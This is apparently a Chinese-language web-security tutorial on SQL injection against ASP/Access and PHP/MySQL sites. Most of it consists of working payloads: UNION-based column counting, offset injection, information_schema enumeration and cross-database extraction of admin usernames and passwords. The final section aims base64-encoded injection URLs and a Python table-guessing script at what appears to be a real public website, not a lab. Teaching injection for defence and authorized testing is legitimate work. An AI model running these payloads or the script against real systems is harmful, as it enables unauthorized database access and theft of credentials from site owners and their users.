 # 3.7 SQL注入（一）

## 3.7.1 脚本代码与数据库前置知识

[SQL 教程 | 菜鸟教程 (runoob.com)](https://www.runoob.com/sql/sql-tutorial.html)

## 3.7.2 Access数据库注入-简易&偏移

[手工注入——access手工注入实战和分析 - 小艾搞安全 - 博客园 (cnblogs.com)](https://www.cnblogs.com/lxfweb/p/12643011.html)

## 3.7.3 MYSQL数据库注入-简易&权限跨库

脚本代码在实现代码与数据库进行数据通讯时（从数据库取出相关数据进行页面显示），将定义的SQL语句进行执行查询数据时。其中的SQL语句能通过参数传递自定义值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（数据库中的敏感数据，如管理员帐号密码）。这一个过程就可以叫做SQL注入漏洞。

[漏洞原理篇---数据库注入攻击(Mysql) - 1mg0 - 博客园 (cnblogs.com)](https://www.cnblogs.com/lmg0/p/12920147.html)

## 3.7.4 演示案例

### 3.7.4.1 ASP+Access-简易注入-字典猜解

漏洞产生根本条件：可控变量 特定函数
http://192.168.46.160:85/Production/PRODUCT.asp
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513
如果下面的URL地址测试注入判断id有注入，手工测试该如何进行？
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513&page=1
http://192.168.46.160:85/Production/PRODUCT.asp?page=1&id=1513
Production/PRODUCT.asp?id=1513 注入语句&page=1 对
Production/PRODUCT.asp?id=1513&page=1 注入语句 错

SQL注入攻击流程：
1、猜测数据库类型
2、根据类型选择思路

ACCESS 独立存在
数据库名
             表名
                     列名
                            数据

第一步查询表明，第二步查询列名

http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2022   正确
[http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2023 ]()错误

查询到22个字段，然后进行组合：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135072-190382664.png)

admin只能靠猜测才能得到，
admin字段跟password字段也只能靠猜测才能得到。
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135161-1740379825.png)

由于Access数据库特性导致这个SQL注入是需要借助字典去猜解表名和列名的，那么就会出现表名或列名猜解不到，可以自定义社工字典或采用偏移注入！

### 3.7.4.2 ASP+Access-偏移注入-报错显示

偏移注入就是解决表名已知，列名未知的情况！
https://www.fujieace.com/penetration-test/access-offset-injection.html
用***号去替换一个字段
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,* from admin
逐渐减少字段，直到正确
当减到16的时候正常：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin
那么*号代表6个
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id = b.id)
这样注入就会随机爆出字段（源代码）

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135087-1138893945.png)

二级偏移：http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)

[access偏移注入原理 - 浅易深 - 博客园 (cnblogs.com)](https://www.cnblogs.com/02SWD/p/15811580.html)

### 3.7.4.3 PHP+MYSQL-简易注入-存储特性

MYSQL 统一管理
最高数据库用户=root用户
数据库A=网站A=数据库用户A
         表名
                       列名
                                       数据
数据库B=网站B=数据库用户B
数据库C=网站C=数据库用户C

为了网站和数据库的安全性，MYSQL内置有ROOT最高用户，划分等级，每个用户对应管理一个数据库，这样保证无不关联，从而不会影响到其他数据库的运行。
MYSQL两种思路：
    非ROOT的注入攻击：常规类的猜解
    ROOT用户的注入攻击：文件读写操作，跨库查询注入等
黑盒测试中可以采用user()获取当前用户权限，白盒中看连接用户即可！

MYSQL5.0以上版本：自带的数据库名information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schematas:记录数据库信息表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表

获取相关数据：
1、数据库版本-看是否符合information_schema查询-version()-5.5.53
2、数据库用户-看是否符合ROOT型注入攻击-user()-root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()-syguestbook
获取数据库用户和版本：
http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT user(),version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132136059-1825767764.png)

http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT database(),@@version_compile_os,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135843-777374884.png)

ROOT类型攻击-猜解数据，文件读写，跨库查询
如果显示一部分，用到group_concat函数就可以显示全部
获取syguestbook数据库下面的表名信息：
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='syguestbook'

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135656-680328974.png)

获取表名sy_adminuser的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='sy_adminuser' and table_schema='syguestbook'

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135996-1595272495.png)

获取指定数据：
UNION SELECT username,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from sy_adminuser

### 3.7.4.4 PHP+MYSQL-跨库注入-权限属性

获取数据库名xhcms下的表名信息
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='xhcms'
获取数据库名xhcms下的表manage下的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='manage' and table_schema='xhcms'
获取指定数据：
UNION SELECT user,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from xhcms.manage

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135781-1212088935.png)

获取数据库名xhcms下的表名信息
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='xhcms'
获取数据库名xhcms下的表manage下的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='manage' and table_schema='xhcms'
获取指定数据：
UNION SELECT user,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from xhcms.manage

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135562-1375154222.png)

http://www.comresearch.org/researchDetails.php?id=MD=
爆数字：
http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==

http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsdmVyc2lvbigpLHVzZXIoKSw2LDc=

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135583-176201651.png)

版本不对，这个时候只能暴力破解
脚本代码：

```python
import requests
import base64
url='http://www.comresearch.org/researchDetails.php?id='
sqlin='1 union select 1,2,3,4,5,6,7 from '
for lieming in open('common-tables.txt'):
    lieming=lieming.strip()
    s=sqlin+lieming
    ss=base64.b64encode(s.encode('utf-8'))
    #print(lieming)
    sqlins=url+ss.decode('utf-8')
    #print(sqlins)
    sss=requests.get(sqlins)
    if 'Warning' in sss.text:
        print('失败')
    else:
        print('成功')
        print(sqlins)
```
